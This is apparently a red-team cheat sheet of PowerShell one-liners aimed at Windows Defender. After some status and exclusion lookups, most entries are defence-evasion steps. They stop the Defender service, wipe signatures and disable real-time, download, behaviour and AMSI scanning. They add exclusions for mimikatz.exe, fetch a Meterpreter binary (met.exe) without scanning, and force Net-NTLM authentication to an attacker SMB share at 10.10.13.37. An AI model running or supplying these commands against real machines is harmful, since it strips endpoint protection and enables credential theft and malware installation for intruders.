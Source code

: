 # pwsh
% windows, security, antivirus, defender

#plateform/windows #target/local #cat/RECON/SECURITY/DEFENDER #tag/powershell 

## defender - commands
```powershell
 Get-Command -Module defender
 ```

## defender - knowledge
```powershell
https://github.com/jeremybeaume/tools/blob/master/disable-defender.ps1
https://wirediver.com/disable-windows-defender-in-powershell/
```


## defender - get antivirus
```powershell
wmic.exe /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
```

## defender - get powershell commands
```powershell
Get-Command -Module Defender
```

## defender - get service Status
```powershell
(Get-Service windefend).Status
```

## defender - get status
```powershell
Get-MpComputerStatus
```

## defender - get defensive modules status
```powershell
Get-MpComputerStatus | Select RealTimeProtectionEnabled, IoavProtectionEnabled, Antispyware | FL
```

## defender - get tamper protection status
```powershell
Get-MpComputerStatus | Select IsTamperProtected, RealTimeProtectionEnabled | FL
```

## defender - get exclusions path
```powershell
Get-MpPreference | Select-Object -Property ExclusionPath, ExclusionExtension
```

## defender - get exclusions extension
```powershell
Get-MpPreference | Select-Object  -Property ExclusionExtension
```


#cat/DEFENSE-EVASION/SECURITY/DEFENDER

## Defender - stop service
```powershell
sc.exe config WinDefend start= disabled; (Get-Service windefend).stop
```

## Defender - Remove signatures (if Internet connection is present, they will be downloaded again)
%ProgramFiles%\Windows Defender\MpCmdRun.exe
```powershell
.\MpCmdRun.exe -RemoveDefinitions -All
```

## Defender - disable All
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableIOAVProtection $true;  Set-MpPreference -DisableScriptScanning $true
```

## Defender - disable Real Time Monitoring 
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Defender - Disable scanning for downloaded or attachments
```powershell
Set-MpPreference -DisableIOAVProtection $true
```

## Defender - Disable behaviour monitoring
```powershell
Set-MPPreference -DisableBehaviourMonitoring $true
```

## Defender - Disable AMSI
```powershell
Set-MpPreference -DisableScriptScanning $true
```


## Defender - Add path to exclusions
```powershell
$p = "<path|c:\windows\temp>" ; Add-MpPreference -ExclusionPath $p -AttackSurfaceReductionOnlyExclusions $p
```


## Defender - Add process to exclusions (1)
```powershell
$p = "<path|c:\windows\temp\mimikatz.exe>" ; Add-MpPreference -ExclusionProcess $p -AttackSurfaceReductionOnlyExclusions $p
```

## Defender - Add process to exclusions (2)
```powershell
$p = "<binary|mimikatz.exe>" ; Add-MpPreference -ExclusionProcess $p -AttackSurfaceReductionOnlyExclusions $p
```

## Defender - Add extension to exclusions
```powershell
Set-MpPreference -ExclusionExtension "<extension|ps1>"
```

## Defender - Download without triggering scan
```powershell
C:\Program Files\Windows Defender\MpCmdRun.exe -DownloadFile -Url http://127.0.0.1/met.exe -Path C:\Users\snovvcrash\music\met.exe
```

## Defender - steal net-tnlm
```powershell
C:\Program Files\Windows Defender\MpCmdRun.exe -Scan -ScanType 3 -File '\\10.10.13.37\share\file'
```


## Defender - steal net-tnlm
```powershell
C:\Program Files\Windows Defender\MpCmdRun.exe -Scan -ScanType 3 -File '\\10.10.13.37\share\file'
```

## Defender - remove signatures
```powershell
C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe -RemoveDefinitions -All
```